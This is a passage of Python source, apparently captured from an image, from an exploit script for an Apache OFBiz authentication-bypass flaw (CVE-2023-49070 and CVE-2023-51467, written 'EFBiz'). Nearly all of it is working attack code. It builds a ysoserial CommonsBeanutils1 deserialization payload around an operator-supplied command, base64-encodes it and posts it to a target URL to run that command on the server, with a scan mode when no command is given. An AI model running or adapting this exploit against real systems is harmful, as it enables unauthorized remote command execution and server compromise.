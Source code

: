 ```python
                    </struct>
                  </value>
                </param>
              </params>
            </methodCall>
        """

        # Send the POST request to the target URL with the XML data and headers.
        response = requests.post(target_url, headers=headers, data=xml_data, verify=False)

        # Check the response status code to determine if the request was successful.
        if response.status_code == 200:
            print("[+] The request has been successfully sent. Check the result of the command.")
        else:
            print("[-] Failed to send the request. Check the connection or try again.")
    except requests.exceptions.RequestException as e:
        # Catch and log any exceptions that occur during the HTTP request.
        print(f"[-] LOG: An error occurred during the scan: {e}")

def main():
    """
    Main function for executing the script.
    Parses command-line arguments and performs either a scan or an exploit attempt.
    """
    # Set up an argument parser with a description of the script's purpose.
    parser = argparse.ArgumentParser(description="Exploit script for Apache EFBiz auth vulnerability (CVE-2023-49070 and CVE-2023-51467).")

    # Define a required command-line argument '--url' for the target URL.
    parser.add_argument("--url", required=True, help="EFBIZ's URL to send requests to.")

    # Define an optional command-line argument '--cmd' for the command to run on the remote server.
    parser.add_argument("--cmd", help="Command to run on the remote server. Optional.")

    # Parse the command-line arguments and store them in 'args'.
    args = parser.parse_args()

    # Remove any trailing slashes from the URL to ensure consistent URL formation.
    url = args.url.rstrip('/')

    # Validate the URL schema to ensure it's properly formatted.
    validate_url(args.url)

    # If no command is provided, perform a basic scan of the target URL.
    if args.cmd is None:
        scan(url)
    else:
        # Construct the command to generate a serialized payload using ysoserial.
        command = f"java -jar --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED ysoserial-all.jar CommonsBeanutils1 '{args.cmd}'"

        # Generate a base64-encoded payload from the command.
        encoded_output = get_encoded_payload(command)

        # Send the malicious payload in a POST request to the target URL.
        send_post_request(url, encoded_output)

# Execute the main function if the script is run directly.
if __name__ == "__main__":
    main()

```